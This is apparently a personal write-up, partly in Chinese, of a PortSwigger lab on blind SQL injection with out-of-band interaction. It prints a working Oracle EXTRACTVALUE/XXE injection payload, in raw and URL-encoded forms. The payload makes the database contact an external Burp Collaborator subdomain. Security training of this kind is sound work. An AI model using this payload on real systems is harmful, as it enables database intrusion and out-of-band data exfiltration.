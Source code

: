 ```yaml
---
layout: post
title: "Blind SQL injection with out-of-band interaction"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_SQL_Injection
author: ""
tags: ['PortSwigger_Lab', 'SQL_Injection']
---
```






# Blind SQL injection with out-of-band interaction


```
This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability to cause a DNS lookup to Burp Collaborator.

#### Learning path

If you're following our [learning path](https://portswigger.net/web-security/learning-path), please note that the suggested solution for this lab requires some understanding of topics that we haven't covered yet. Don't worry if you get stuck; try coming back later once you've developed your knowledge further.

#### Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

#### Hint

You can find some useful payloads on our [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).








本實驗室包含一個 [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) 漏洞。該應用程序使用跟踪 cookie 進行分析，並執行包含提交的 cookie 值的 SQL 查詢。

SQL 查詢是異步執行的，對應用程序的響應沒有影響。但是，您可以觸發與外部域的帶外交互。

為解決實驗室問題，利用 [SQL 注入](https://portswigger.net/web-security/sql-injection) 漏洞對 Burp Collaborator 進行 DNS 查找。

####學習路徑

如果您遵循我們的 [學習路徑](https://portswigger.net/web-security/learning-path)，請注意，此實驗室的建議解決方案需要對我們尚未涵蓋的主題有所了解。如果你被卡住了，不要擔心；一旦你進一步發展了你的知識，試著稍後再回來。

＃＃＃＃ 筆記

為了防止 Academy 平台被用於攻擊第三方，我們的防火牆阻止了實驗室與任意外部系統之間的交互。要解決實驗室，您必須使用 Burp Collaborator 的默認公共服務器。

＃＃＃＃ 暗示

您可以在我們的 [SQL 注入備忘單](https://portswigger.net/web-security/sql-injection/cheat-sheet) 上找到一些有用的有效負載。







```

EXTRACTVALUE 報錯注入:
https://blog.csdn.net/AI_SumSky/article/details/121708504

https://ithelp.ithome.com.tw/articles/10272660

https://www.tr0y.wang/2019/04/16/Oracle%E6%B3%A8%E5%85%A5%E6%8C%87%E5%8C%97/





payload 說明很清楚:
https://topic.alibabacloud.com/a/oracle-database-xxe-injection-vulnerability-analysis-cve-2014-6577_1_46_30022613.html

關鍵:
google 翻譯文章
這次引用的是參數實體而不是文檔實體：



總結: 以下語句可以 http 請求 

```
TrackingId=x' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--


```


但要注意，許多特殊字元需要 url encode 

```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--

```

BURP-COLLABORATOR-SUBDOMAIN
```
sc8fydumc5nrx3fwzj33t9fvhmncb1.burpcollaborator.net
```


payload:
```

'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//sc8fydumc5nrx3fwzj33t9fvhmncb1.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--

```



這題叫你 ping 一下 DNS 而已。

